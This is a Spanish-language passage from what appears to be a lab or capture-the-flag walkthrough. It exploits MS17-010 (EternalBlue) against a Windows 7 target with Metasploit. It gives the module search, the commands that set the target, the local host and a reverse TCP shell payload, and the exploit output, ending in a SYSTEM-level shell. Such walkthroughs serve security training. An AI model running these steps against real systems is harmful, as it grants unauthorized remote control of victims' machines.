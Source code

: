 ### Explotación automática - SMB - Remote Code Execution (Metasploit) (MS17-010)

Una vez confirmada la vulnerabilidad `MS17-010`, buscamos un exploit de `Metasploit` que pueda explotarla.

```bash
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```

En este caso, empleamos el exploit `exploit/windows/smb/ms17_010_eternalblue`. Configuramos las opciones correspondientes del módulo y luego lanzamos el exploit.

- `RHOST` → para especificar la dirección IP del host de destino
- `payload` → útil para especificar el tipo de carga útil, en este caso, el shell TCP inverso de Windows
- `LHOST` → para especificar la dirección IP del host local para conectarse

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.206.58
rhosts => 10.10.206.58
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.2.11.100
lhost => 10.2.11.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

Utilizamos específicamente el payload `windows/x64/shell/reverse_tcp` para obtener una shell convencional. Luego, aplicamos un módulo de `Metasploit` para migrar a una shell más robusta y versátil, como `Meterpreter`.

La correcta configuración y ejecución del exploit nos proporciona una shell con privilegios de `nt authority\system`.

```bash
[*] 10.10.206.58:445 - Connecting to target for exploitation.
[+] 10.10.206.58:445 - Connection established for exploitation.
[+] 10.10.206.58:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.206.58:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.206.58:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.206.58:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.206.58:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.206.58:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.206.58:445 - Trying exploit with 22 Groom Allocations.
```